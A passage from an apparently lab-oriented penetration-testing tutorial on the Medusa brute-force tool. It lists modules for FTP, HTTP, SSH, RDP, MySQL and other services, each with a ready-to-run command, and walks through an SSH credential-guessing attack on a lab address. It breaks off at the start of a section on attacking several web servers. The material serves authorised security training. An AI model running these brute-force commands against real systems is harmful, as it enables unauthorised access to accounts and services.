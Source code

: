 ### Medusa Modules

Each module in Medusa is tailored to interact with specific authentication mechanisms, allowing it to send the appropriate requests and interpret responses for successful attacks. Below is a table of commonly used modules:

| Medusa Module | Service/Protocol | Description | Usage Example |
| --- | --- | --- | --- |
| FTP | File Transfer Protocol | Brute-forcing FTP login credentials, used for file transfers over a network. | `medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt` |
| HTTP | Hypertext Transfer Protocol | Brute-forcing login forms on web applications over HTTP (GET/POST). | `medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^` |
| IMAP | Internet Message Access Protocol | Brute-forcing IMAP logins, often used to access email servers. | `medusa -M imap -h mail.example.com -U users.txt -P passwords.txt` |
| MySQL | MySQL Database | Brute-forcing MySQL database credentials, commonly used for web applications and databases. | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt` |
| POP3 | Post Office Protocol 3 | Brute-forcing POP3 logins, typically used to retrieve emails from a mail server. | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt` |
| RDP | Remote Desktop Protocol | Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems. | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt` |
| SSHv2 | Secure Shell (SSH) | Brute-forcing SSH logins, commonly used for secure remote access. | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt` |
| Subversion (SVN) | Version Control System | Brute-forcing Subversion (SVN) repositories for version control. | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt` |
| Telnet | Telnet Protocol | Brute-forcing Telnet services for remote command execution on older systems. | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt` |
| VNC | Virtual Network Computing | Brute-forcing VNC login credentials for remote desktop access. | `medusa -M vnc -h 192.168.1.100 -P passwords.txt` |
| Web Form | Brute-forcing Web Login Forms | Brute-forcing login forms on websites using HTTP POST requests. | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"` |

### Targeting an SSH Server

Imagine a scenario where you need to test the security of an SSH server at `192.168.0.100`. You have a list of potential usernames in `usernames.txt` and common passwords in `passwords.txt`. To launch a brute-force attack against the SSH service on this server, use the following Medusa command:

Medusa

```shell-session
frank-106@htb[/htb]$ medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

This command instructs Medusa to:

- Target the host at `192.168.0.100`.
- Use the usernames from the `usernames.txt` file.
- Test the passwords listed in the `passwords.txt` file.
- Employ the `ssh` module for the attack.

Medusa will systematically try each username-password combination against the SSH service to attempt to gain unauthorized access.

### Targeting Multiple Web Servers with Basic HTTP Authentication

Suppose you have a list of web servers that use basic HTTP authentication. These servers' addresses are stored in `web_servers.txt`, and you also have lists of common usernames and passwords in `usernames.txt` and `passwords.txt`, respectively. To test these servers concurrently, execute:

